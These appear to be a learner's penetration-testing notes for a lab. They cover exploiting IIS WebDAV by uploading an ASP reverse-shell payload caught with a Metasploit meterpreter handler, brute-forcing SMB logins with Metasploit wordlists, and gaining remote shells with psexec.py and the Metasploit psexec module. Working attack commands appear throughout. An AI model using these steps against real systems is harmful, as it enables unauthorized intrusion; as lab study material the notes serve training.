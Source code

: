 2.Cadaver to upload shell.asp (seen above)
Clicking the shell.asp in /webdav/ executes the payload, b4 that set up listener in msfconsole

```bash
#starts metasploit and metasploit framework database (Pretty sure it starts itself but idk?? yea...dont need the front part)
service postgresql start && msfconsole
```

```bash
#set options to match the msfvenom payload
use multi/handler
set payload windows/meterpreter/reverse_tcp
set port 1234
```

2b. Or use windows/iis/iis_webdav_uplaod_asp in msfconsole to upload (everything done on its own, even deletes the payload after)

```msf
#slightly tricky
set PATH webdav/matasploit%RAND%.asp
```

### Exploit SMB running on Microsoft IIS with PsExec
#smb
SMB intro
- 2 level authentication
	1. User authentication (pword+user)
	2. Share authentication (pword to access share)
- Utilise a challenge response auth system (encrypted string is sent back to match the servers) (ie the pword used)

PsExec intro
- Microsofts lightweight replacement for telnet to execute processes remotely
- auth is performed via SMB
- similar to RDP but without GUI (ie only tru CMD)
- It is a windows util so doesnt work in linux (unless u use wine), SO 
- psexec.py is used instead --> python tool same as psexec
- ^ its a Impacket tool wow
```bash
#authenticate user
psexec.py Administrator@10.2.24.221 cmd.exe
#you will be prompted for password
```
- Very clean as its a legit login (no malicious files etc)

To get auth
- SMB brute force
	- can narrow down users to administrator (every server has this acct)
	- smb_login on msf with 
	- /usr/share/metasploit-framework/data/wordlists/common_users.txt
	- pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
If want meterpreter
- exploit/windows/smb/psexec
- Enter creds found
-  run
